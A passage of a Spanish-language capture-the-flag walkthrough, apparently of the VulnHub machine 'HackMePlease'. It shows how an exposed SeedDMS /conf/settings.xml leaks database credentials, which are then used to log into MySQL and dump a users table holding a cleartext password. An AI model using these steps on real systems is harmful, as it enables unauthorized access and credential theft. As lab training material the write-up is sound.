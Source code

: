 Buscando en Google localizamos el GitHub de [SeedDMS](https://github.com/JustLikeIcarus/SeedDMS/). Examinando la estructura de carpetas encontramos dentro de `/conf/.htaccess` un comentario en el cñodigo interesante, nos avisa que el archivo `/conf/settings.xml` tiene que tener un redirect por motivos de seguridad

<img src="/assets/VH/HackMePlease/httaccess.png">

Accedemos a la ruta encontrada y nos permite el acceso, examinamos el archivo y encontramos unas credenciales

<img src="/assets/VH/HackMePlease/credentials.png">

Nos conectamos por `MySQL` a la máquina víctima con las credenciales obtenidas

```bash
❯ mysql -useeddms -h 192.168.1.144 -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 52
Server version: 8.0.25-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```

Enumerando bases de datos localizamos `seeddms`. Dentro de esta base de datos encontramos la tabla `users`. Listando el contenido obtenemos unas credenciales en texto claro

```bash
MySQL [seeddms]> select * from users;
+-------------+---------------------+--------------------+-----------------+
| Employee_id | Employee_first_name | Employee_last_name | Employee_passwd |
+-------------+---------------------+--------------------+-----------------+
|           1 | saket               | saurav             | Saket@#$1337    |
+-------------+---------------------+--------------------+-----------------+
1 row in set (0,002 sec)
```
